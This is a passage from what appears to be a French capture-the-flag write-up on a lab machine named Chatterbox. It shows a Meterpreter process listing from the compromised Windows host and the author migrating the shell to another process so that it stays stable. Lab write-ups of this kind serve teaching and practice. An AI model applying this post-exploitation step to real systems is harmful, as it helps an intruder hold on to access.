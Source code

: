 ```bash
             e
 664   456   svchost.exe
 716   456   svchost.exe
 792   456   svchost.exe
 872   456   svchost.exe
 920   456   svchost.exe
 968   456   svchost.exe
 984   456   svchost.exe
 1076  288   dinotify.exe    x86   1        CHATTERBOX\Alfred  C:\Windows\System32\dinotify.ex
                                                               e
 1104  456   svchost.exe
 1236  456   spoolsv.exe
 1272  456   svchost.exe
 1400  456   taskhost.exe    x86   1        CHATTERBOX\Alfred  C:\Windows\system32\taskhost.ex
                                                               e
 1424  456   svchost.exe
 1504  456   sppsvc.exe
 1548  792   dwm.exe         x86   1        CHATTERBOX\Alfred  C:\Windows\system32\Dwm.exe
 1572  1504  explorer.exe    x86   1        CHATTERBOX\Alfred  C:\Windows\Explorer.EXE
 1696  1572  vm3dservice.ex  x86   1        CHATTERBOX\Alfred  C:\Windows\System32\vm3dservice
             e                                                 .exe
 1704  1572  vmtoolsd.exe    x86   1        CHATTERBOX\Alfred  C:\Program Files\VMware\VMware
                                                               Tools\vmtoolsd.exe
 1824  456   VGAuthService.
             exe
 1852  456   vmtoolsd.exe
 1872  312   conhost.exe
 2100  456   dllhost.exe
 2160  576   WmiPrvSE.exe
 2344  456   msdtc.exe
 2540  456   SearchIndexer.
             exe
 2752  3052  AChat.exe       x86   1        CHATTERBOX\Alfred  c:\Program Files\AChat\AChat.ex
                                                               e
 3164  456   svchost.exe
 3188  920   taskeng.exe     x86   1        CHATTERBOX\Alfred  C:\Windows\system32\taskeng.exe
 3316  576   WmiPrvSE.exe
 3836  576   dllhost.exe     x86   1        CHATTERBOX\Alfred  C:\Windows\system32\DllHost.exe
 3860  456   CompatTelRunne
             r.exe
```

Impeccable. Je vois par exemple le PID 288, je tente donc de relancer l'exploit et de migrer très vite vers ce PID pour voir si mon shell se stabilise:

```bash
meterpreter > migrate 288
[*] Migrating from 3816 to 288...
[*] Migration completed successfully.
meterpreter > 
```
